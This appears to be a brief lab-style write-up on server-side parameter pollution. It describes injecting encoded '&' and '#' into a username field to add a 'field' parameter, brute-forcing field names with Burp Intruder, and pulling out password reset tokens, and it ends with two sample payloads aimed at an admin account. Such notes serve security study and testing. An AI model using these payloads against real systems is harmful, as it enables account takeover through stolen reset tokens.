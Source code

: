 # Server-Side Parameter Pollution (SSPP)

## Objective

Bypass frontend restrictions and inject new parameters into server-side logic.

---

## Method

- Used `%26` to inject parameters like: `username=admin%26field=email%23`
- Used `%23` (`#`) to truncate the rest of the query or body
- Brute-forced field names using Burp Intruder and built-in payloads
- Extracted password reset tokens or forced internal state changes

---

## Sample Payloads

```http
username=admin%26field=email%23
username=admin%26field=reset_token%23


